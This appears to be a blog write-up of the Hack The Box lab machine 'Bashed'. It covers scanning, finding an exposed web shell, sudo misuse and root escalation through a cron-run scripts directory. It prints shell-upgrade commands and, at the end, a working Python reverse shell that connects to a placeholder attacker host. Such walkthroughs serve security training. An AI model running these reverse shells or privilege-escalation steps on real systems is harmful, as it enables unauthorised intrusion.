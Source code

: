 ```yaml
---
layout: single
title: Hack The Box - Bashed
permalink: /htb-bashed/
excerpt: "Bashed is an easy machine from Hack the Box. This is a really old machine. This machine focuses on file misconfiguration and the dangerous let the web shell out in the open. Like I say, this is an old machine, we have a bunch possibility to learn such as kernel exploit, etc."
classes: wide
header:
  teaser: "/assets/images/htb/bashed/home.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
tags:
  - python
  - gobuster
  - crontab
  - file-misconfiguration
---
```


![1](/assets/images/htb/bashed/home.png)

### <font color="#9bffc8">Nmap</font>

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### <font color="#9bffc8">Http</font>

Let's take a look at the website. 

![1](/assets/images/htb/bashed/website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](/assets/images/htb/bashed/upload_dir.png)

### <font color="#9bffc8">Gobuster</font>

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](/assets/images/htb/bashed/gobuster.png)

### <font color="#9bffc8">/dev</font>

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](/assets/images/htb/bashed/dev.png)

![1](/assets/images/htb/bashed/web_shell.png)

### <font color="#9bffc8">Reverse Shell</font>

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](/assets/images/htb/bashed/b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](/assets/images/htb/bashed/bs64_webshell.png)

![1](/assets/images/htb/bashed/got_the_shell.png)

### <font color="#9bffc8">Upgrade shell using python</font>

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### <font color="#9bffc8">User scriptmanager</font>

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](/assets/images/htb/bashed/scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](/assets/images/htb/bashed/change_2_scriptmanager.png)

### <font color="#9bffc8">/scripts</font>

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](/assets/images/htb/bashed/script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](/assets/images/htb/bashed/contents.png)

### <font color="#9bffc8">Root Shell</font>

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](/assets/images/htb/bashed/petai_root.png)
